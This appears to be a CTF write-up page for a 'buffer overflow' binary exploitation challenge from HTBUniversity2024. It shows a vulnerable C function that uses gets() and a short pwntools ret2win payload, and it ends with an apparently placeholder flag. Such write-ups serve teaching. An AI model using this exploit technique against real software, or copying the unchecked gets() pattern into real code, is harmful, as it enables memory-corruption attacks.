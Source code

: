```yaml
---
title: "buffer overflow"
date: 2025-06-27T21:39:20+02:00
description: "buffer overflow writeup from HTBUniversity2024 CTF - Binary Exploitation challenge"
categories:
    - "CTF Writeups"
    - "Binary Exploitation"
tags:
    - "CTF"
    - "HTBUniversity2024"
    - "Binary Exploitation"
    - "Cybersecurity"
event: "HTBUniversity2024"
challenge: "buffer overflow"
category: "Binary Exploitation"
weight: 1
---
```


# buffer overflow

**Event:** HTBUniversity2024 | **Category:** Binary Exploitation

---


# Buffer Overflow

## Challenge Description

A classic buffer overflow challenge. Can you control the execution flow?

## Solution

This challenge involves a simple buffer overflow with a ret2win technique.

### Step 1: Analysis

Running `checksec` on the binary shows:
- No ASLR
- No stack canaries
- NX disabled

### Step 2: Finding the Vulnerability

The `vulnerable_function()` uses `gets()` which doesn't check buffer bounds.

```c
void vulnerable_function() {
    char buffer[64];
    gets(buffer);
}
```

### Step 3: Exploitation

We need to overflow the buffer and redirect execution to the `win()` function.

```python
from pwn import *

# Calculate offset
offset = 72

# Address of win function
win_addr = 0x401234

payload = b'A' * offset + p64(win_addr)
```

### Step 4: Flag

After successful exploitation, the `win()` function prints the flag.

**Flag:** `HTB{f4k3_buff3r_0v3rfl0w_t35t}` 

---

**Navigation:**
- [← Back to HTBUniversity2024 Overview](/ctf/htbuniversity2024/)
- [View All CTF Writeups](/ctf/)
